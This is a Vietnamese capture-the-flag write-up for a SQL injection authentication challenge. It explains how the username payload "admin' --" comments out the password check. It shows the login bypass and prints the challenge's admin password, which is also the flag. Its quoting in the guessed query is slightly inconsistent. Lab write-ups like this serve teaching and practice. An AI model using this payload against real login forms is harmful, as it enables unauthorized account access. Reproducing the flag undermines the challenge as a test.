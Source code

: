 # SQL injection - Authentication
## Solution

Challenge này cung cấp cho chúng ta một cái form để khai thác như sau.

![image](https://user-images.githubusercontent.com/86184794/161976062-e7489432-02a5-49aa-a57d-c72566dff0fa.png)

![image](https://user-images.githubusercontent.com/86184794/161976230-14fb4751-9949-4d83-877a-0fe2175cb6d3.png)

Trong DOM Element cũng không có gì đặc biệt.

Giờ em thử nhập thử username với password xem sao.

Username: admin
Password: admin

![image](https://user-images.githubusercontent.com/86184794/161976418-98cc2ebe-4135-4979-8e24-67959fb9c2d4.png)

Lỗi không tìm thấy user/password.

Như vậy ở server khi xử lý sẽ chạy 1 đoạn code SQL để tìm kiếm username/password

Theo em thì nó sẽ sử dụng câu lệnh

```
SELECT  *  FROM table_username_password WHERE username="username_đã_nhập" AND password="password_đã_nhập"
```

Giờ để khai thác lỗi chỗ này thì username em sẽ nhập là "admin' --" có nghĩa là

```
SELECT  *  FROM table_username_password WHERE username="admin' --" AND password="password_đã_nhập"
```

Mà trong ngôn ngữ SQL những kí tự sau sau "--" đều là comment như vậy thì câu truy vấn của chúng ta chỉ là

```
SELECT  *  FROM table_username_password WHERE username="admin' 
```

Như vậy nếu trong database có username là "admin" thì chúng ta đã bypass được quá trình kiểm tra đăng nhập.

![image](https://user-images.githubusercontent.com/86184794/161979070-d4a58a99-9423-4e33-86e4-3f7230023972.png)

Username: admin' --
Password: 123

![image](https://user-images.githubusercontent.com/86184794/161979199-f42184e1-d7a6-4ebc-a02b-3abf2e657ccb.png)

Ta đã có được password của admin: t0_W34k!$

Flag: t0_W34k!$"
